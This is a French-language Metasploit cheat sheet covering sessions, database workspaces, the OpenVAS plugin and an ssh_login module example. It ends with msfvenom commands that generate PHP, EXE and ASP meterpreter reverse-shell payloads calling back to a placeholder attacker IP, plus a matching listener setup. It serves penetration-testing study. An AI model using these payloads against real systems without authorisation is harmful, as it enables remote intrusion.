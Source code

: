 metasploit
==========

## Commandes de base

### Gestion sessions

Pour lister les sessions en cours :
```
msf> sessions -l
```

Pour basculer sur une session existante :
```
msf> sessions -i <id_session>
```

Pour passer une session en arrière plan :
```
meterpreter> background
```

### Listener

Lancer un listener en attente d'un reverse tcp meterpreter windows :
```
msf> use multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST <ip_kali>
msf> set LPORT <port_ecoute>
msf> exploit -j
```

## Base de données

On va travailler avec *PostgreSQL* qui est la base de données par défaut
dans *metasploit*.

### La première fois

Il faut d'abord lancer *PostgreSQL* puis initialiser la base de données
pour *metasploit* :
```
# systemctl start postgresql
# msfdb init
```

Cela crée une base de données `msf` et un utilisateur `msf`.
Au démarrage de `msfconsole`, *metasploit* se connectera automatiquement à
cette base de données.
On peut vérifier qu'on est bien connecté :
```
msf> db_status
```

### Workspaces

On peut ensuite travailler avec des *workspaces* pour ranger ses différents
scans.

Pour lister les *workspaces* disponibles :
```
msf> workspace
```

Pour sélectionner un *workspace* :
```
msf> workspace <workspace_name>
```

Pour créer un *workspace*, on utilise l'option `-a` et pour supprimer un
*workspace* `-d`.
Plus d'information avec l'option `-h`.

### Importation de données

Pour importer des données dans la base :
```
msf> db_import <filename_to_import>
```

Pour faire un scan `nmap` et importer directement les résultats :
```
msf> db_nmap <...classical_nmap_options...>
```

### Lire des données

Pour voir les services scannés :
```
msf> services
```

Pour voir les hôtes scannés :
```
msf> hosts
```

On peut ajouter des éléments à afficher :
```
msf> hosts -c address,os_flavor,svcs,vulns
```

Pour voir les vulnérabilités trouvées :
```
msf> vulns
```

## OpenVAS dans Metasploit

Lancer d'abord une instance `OpenVAS`. Par défaut, l'interface web écoute sur
le port 9392 et le scanner sur le port 9390.

Pour lancer le plugin `OpenVAS` dans `metasploit` :
```
msf> load openvas
```

On se connecte à l'instance `OpenVAS` :
```
msf> openvas_connect <login> <password> 127.0.0.1 9390 ok
```

Pour lister les targets disponibles :
```
msf> openvas_target_list
```

Pour créer une nouvelle target :
```
msf> openvas_target_create <name> <ip> <comment>
```

Pour lister les configurations de scan possibles :
```
msf> openvas_config_list
```

Pour créer une task :
```
msf> openvas_task_create <name> <comment> <config_id> <target_id>
```

Pour lister les tasks :
```
msf> openvas_task_list
```

Pour lancer un scan :
```
msf> openvas_task_start <id>
```

Pour lister les rapports disponibles :
```
msf> openvas_report_list
```

Pour afficher les différents types de rapport disponibles :
```
msf> openvas_format_list
```

Pour télécharger un rapport :
```
msf> openvas_report_download <report_id> <format_id> <path> <report_name>
```

Pour importer un rapport dans metasploit :
```
msf> openvas_report_import <report_id> <format_id>
```

## Meterpreter

### Ouvrir un shell meterpreter à partir d'une connexion ssh

On peut utiliser le module `ssh_login` :
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set RHOSTS 10.10.10.10
msf auxiliary(ssh_login) > set USERNAME foo
msf auxiliary(ssh_login) > set PASSWORD bar
msf auxiliary(ssh_login) > exploit
msf auxiliary(ssh_login) > sessions -u 1
```

## Payloads

### php (meterpreter)

Pour créer un payload *php/meterpreter* en reverse tcp sur le port 4444 :
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f raw > payload.php
```

### windows exe (meterpreter)

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f exe > shell.exe
```

### windows asp (meterpreter)

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f asp > shell.asp
```

## Sources

* <https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf>
* <https://www.ehacking.net/2011/11/how-to-use-openvas-in-metasploit.html>
* <https://www.offensive-security.com/metasploit-unleashed/using-databases/>
* <https://netsec.ws/?p=331>
* <https://dotweak.com/fr/2019/08/12/comment-creer-un-payload-metasploit-60545791/>
